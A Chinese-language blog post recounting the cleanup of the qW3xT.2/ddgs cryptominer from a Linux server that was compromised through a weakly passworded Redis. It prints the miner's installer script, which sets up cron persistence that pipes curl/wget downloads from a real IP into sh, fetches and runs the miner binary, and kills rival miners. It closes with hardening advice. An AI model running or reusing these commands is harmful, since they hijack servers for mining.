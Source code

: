```yaml
---
title: 记一次挖矿病毒处理qW3xT.2
date: 2018-08-12 09:59:32
tags: [Linux,problem,qW3xT,hack]
categories: [server]
---
```


## 问题发现及解决

​	在ucloud使用redis，开启了6379端口，但是当时并没有对redis的密码进行设置复杂的设置，设置的为123456。

使用top命令查询，发现cpu异常占用过高。99%以上

![1536317606280](https://pic.fenghong.tech/others/tapd_23280401_1536318583_22.png)

​	qW3xT.2程序和ddgs.3013程序，看起来就不是正常的程序。google了一下，发现是美国的一个挖矿程序。

​	进入/tmp文件夹下。发现qW3xT.2文件，删除。之后kill掉qW3xT.2该进程，但是一段时间之后，发现该行程又重新启动。

​	一段时间之后，删除的文件重新生成，dds和挖矿的进程又重新执行。此时怀疑是否有计划任务，此时查看计划任务的列表

```
]# find / -name qW3xT.2
]# find / -name ddgs.3013
]# crontab -l 
*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh
]# cd /var/spool/cron/
]# rm -rf * 	
]# crontab -l  ##任务计划清除完毕。
```

​	分析一下挖矿脚本

```
]# curl -fsSL http://149.56.106.215:8000/i.sh | sh

export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

echo "" > /var/spool/cron/root
echo "*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/root
echo "*/15 * * * * wget -q -O- http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/root

mkdir -p /var/spool/cron/crontabs
echo "" > /var/spool/cron/crontabs/root
echo "*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/crontabs/root
echo "*/15 * * * * wget -q -O- http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/crontabs/root

ps auxf | grep -v grep | grep /tmp/ddgs.3013 || rm -rf /tmp/ddgs.3013
if [ ! -f "/tmp/ddgs.3013" ]; then
    wget -q http://149.56.106.215:8000/static/3013/ddgs.$(uname -m) -O /tmp/ddgs.3013
    curl -fsSL http://149.56.106.215:8000/static/3013/ddgs.$(uname -m) -o /tmp/ddgs.3013
fi
chmod +x /tmp/ddgs.3013 && /tmp/ddgs.3013

ps auxf | grep -v grep | grep Circle_MI | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep get.bi-chi.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep hashvault.pro | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep nanopool.org | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep minexmr.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep /boot/efi/ | awk '{print $2}' | xargs kill
#ps auxf | grep -v grep | grep ddg.2006 | awk '{print $2}' | kill
#ps auxf | grep -v grep | grep ddg.2010 | awk '{print $2}' | kill
```

​	解决redis入口问题，因为最开始没有设置密码，所以首先修改redis.conf。设置密码，然后重启redis。

## 总结

​	知名应用程序的端口应避免使用默认端口，认证密码应稍微复杂，避免使用888888,123456等简单密码。

